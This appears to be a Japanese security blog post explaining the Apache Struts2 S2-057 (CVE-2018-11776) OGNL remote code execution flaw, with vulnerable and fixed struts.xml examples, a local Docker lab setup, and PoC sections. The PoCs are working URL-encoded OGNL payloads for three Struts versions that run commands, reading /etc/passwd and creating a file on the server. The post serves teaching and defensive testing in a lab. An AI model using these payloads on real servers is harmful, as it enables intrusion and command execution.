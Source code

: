```yaml
---
layout: post
title:  "S2-057 CVE-2018-11776"
date:   2018-08-24
permalink: /security/:title
categories: Security
tags: Struts2 S2-057 CVE-2018-11776
excerpt: Struts2のRCE脆弱性の解説とハンズオン
mathjax: false
---
```


* content
{:toc}

このポストは
S2-057を発見したLGTMのリサーチャーであるMan Yue Moと、
githubにPoCを公開したリサーチャーのjas502n、Ivan1ee、Fnzer0の情報にもとづいて書かれています。
詳細については文末を確認してください。

## 脆弱性の概要

### 脆弱な設定

struts.xmlに以下の脆弱な設定が記述されている場合、受け取ったHTTPリクエストに含まれるEL式やOGNL式を無害化できず、任意のコマンドを実行される可能性があります。
struts.xmlからincludeされている各xmlも同様に脆弱性の原因となります。

- actionタグもしくはurlタグを含むpackageタグにnamespaceの指定が無い

**脆弱性が有るxml**
```xml
<struts>
  <package name="actionchaining" extends="struts-default">
    <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
      <result type="redirectAction">
        <param name="actionName">register2</param>
      </result>
  </package>
</struts>
```

**脆弱性が無いxml**
```xml
<struts>
  <package name="actionchaining" extends="struts-default" namespace="/hoge">
    <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
      <result type="redirectAction">
        <param name="actionName">register2</param>
      </result>
  </package>
</struts>
```

### 想定される攻撃ベクタ

- リクエストされるURLに`%{`もしくは`${`が含まれる

  **例1**
  http://localhost/app/${1+1}/index

  **例2**
  http://localhost/app/%{(1+1)}/index

  *URLエンコードされている可能性があります*

  http://localhost/app/%24%7B1%2B1%7D/index

  http://localhost/app/%25%7B1%2B1%7D/index

## 仕組み

### Struts2の基本

HTTPリクエストに応じて適切なActionクラスを呼び出すためにActionProxyクラスが使われます。
ActionProxyクラスの基本動作はstruts.xmlに記述されたactionタグによって定義され、受け取ったHTTPリクエストに応じて具体的な動作が決定されます。

以下の例ではhogeに対してSampleClassがマッピングされています。
この状態でhttp://localhost/app1/hoge.actionにアクセスするとSampleClassが呼び出された後にhttp://localhost/app1/index.jspが表示されます。
ActionProxyクラスがURL文字列を解析してSampleClassクラスを呼び出す事によりこの動作が実現されます。

```xml
<struts>
  <package name="test" extends="struts-default" namespace="/app1">
    <action name="hoge" class="SampleClass">
      <result type="dispatcher">
        <param name="actionName">/index.jsp</param>
      </result>
    </action>
  </package>
</struts>
```
解析された文字列からクラスを呼び出す際にOGNLが使われます。
OGNLは文字列をプログラムコードとして解釈実行できるため脆弱性の温床になる可能性があります。
安全に使うためにはプログラマが意図した文字列だけを受け取るような仕組みが必要です。

### 脆弱性

今回発見された脆弱性はnamespaceを判断する機能が悪用されたものです。
packageタグにnamespace属性が指定されていない場合はURLから読み取った/app1という文字列からnamespaceが判定されます。
この時OGNLが利用されるために以下のようなURLを使ったコードが実行可能になります。

`http://localhost/app1/${1+1}/hoge.action`

- サーバは localhost
- action は hoge.action
- namespace は /app1/${1+1} ←これがOGNLに渡される

## 環境構築

jas502n/St2-057はStruts2.2.3.1でないとRCEが成立しません。
今回問題となっているStruts2.3およびStruts2.5ではシンプルな数値計算しか行えずjavaのメソッド呼び出しには失敗するためです。
そういった意味ではjas502n/St2-057には改善の余地があります。
しかし~~2018.08.24時点で唯一のPoCであり~~数値計算が出来る以上はRCEの成立まであと一歩の可能性があるという事で動作確認をしていきます。

<span style="color:red">
*jas502n/St2-057以外にStruts2.3.34で再現可能なPOCが公開されています*
</span>

やるべきことは全てSt2-057/README.mdに書いてあります。
今回はそれらの手順を読み解く必要もなく暗黙の了解を知らなくても良いスクリプトを作りました。
VirtualBoxにCentOS7_minimalを新規インストールしてスクリプトを使ってください。
環境がプロキシ配下にある場合はプロキシ設定もしてください。

### プロキシ設定
必要に応じて設定してください。

```bash
export PROXY='proxy.sample.local:8080'
cat > /etc/profile.d/proxy.sh << END
PROXY=$PROXY
export http_proxy=$PROXY
export HTTP_PROXY=$PROXY
export https_proxy=$PROXY
export HTTPS_proxy=$PROXY
END
source /etc/profile

mkdir -p /etc/systemd/system/docker.service.d
cat > /etc/systemd/system/docker.service.d/proxy.conf << END
[Service]
Environment="HTTP_PROXY=http://$PROXY/" "HTTPS_PROXY=https://$PROXY/"
END
systemctl daemon-reload

```

### Struts2

Struts2.2.3.1とStruts2.3.34とStruts2.5.16を用意します。

```bash
curl -LO https://gist.githubusercontent.com/ox0xo/17673b22fc3fa3260be4eab8687be5e5/raw/e2e72558ce0bb29a61b9ed94a9f9b438b889d00e/s2-057.sh
chmod +x s2-057.sh
./s2-057.sh
```

### 一部ローカル環境向け

```bash
# 以下のファイル群を展開した任意のディレクトに入ってから作業を開始する
# vulhub.tar.gz
# docker-compose-Linux-x86_64
# st2231.war
# st2334.war
# st2516.war
# docker-compose.yml
# struts-actionchaining.xml

gunzip vulhub.tar.gz
curl -LO https://gist.githubusercontent.com/ox0xo/2738af32e40b17e98863d230f73c34df/raw/cc06cbc7001aa8d0e301e3f03636dba60a58a3ca/s2-057-local.sh
chmod +x s2-057-local.sh
./s2-057-local.sh
```

## PoC

### Struts2.2.3.1
**サーバの/etc/passwdを読み取る**
```
http://localhost:8080/st2231/%24%7B%28%23cmd%3D%27cat /etc/passwd%27%2C%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23cmd%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/actionChain1.action
```
**サーバ上に/tmp/this_server_was_hackedを作成する**
```
http://localhost:8080/st2231/%24%7B%28%23cmd%3D%27touch /tmp/this_server_was_hacked%27%2C%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23cmd%29%29%7D/actionChain1.action
```
### Struts2.3.34
**サーバの/etc/passwdを読み取る**
```
http://localhost:8080/st2334/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27cat /etc/passwd%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1
```
**サーバ上に/tmp/this_server_was_hackedを作成する**
```
http://localhost:8080/st2334/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22touch /tmp/this_server_was_hacked%22%29%29%7D/actionChain1
```
### struts2.5.16
**サーバの/etc/passwdを読み取る**
```
http://localhost:8080/st2516/%24%7B%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ou.setExcludedClasses%28%27java.lang.Shutdown%27%29%29.%28%23ou.setExcludedPackageNames%28%27sun.reflect.%27%29%29.%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27cat /etc/passwd%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1
```
**サーバ上に/tmp/this_server_was_hackedを作成する**
```
http://localhost:8080/st2516/%24%7B%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ou.setExcludedClasses%28%27java.lang.Shutdown%27%29%29.%28%23ou.setExcludedPackageNames%28%27sun.reflect.%27%29%29.%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D%40java.lang.Runtime%40getRuntime%28%29.exec%28%27touch /tmp/this_server_was_hacked%27%29%29%7D/actionChain1
```
## 参考

[Man Yue Mo: CVE-2018-11776: How to find 5 RCEs in Apache Struts with Semmle QL](https://lgtm.com/blog/apache_struts_CVE-2018-11776)

[jas502n: St2-057 在线靶机环境，Enjoy！](https://github.com/jas502n/St2-057/blob/master/README.md)

[Ivan1ee: Struts2-057/CVE-2018-11776两个版本RCE漏洞分析（含EXP）](https://github.com/Ivan1ee/struts2-057-exp/)

[Fnzer0: S2-057本地测试与复现](https://github.com/Fnzer0/S2-057-poc)
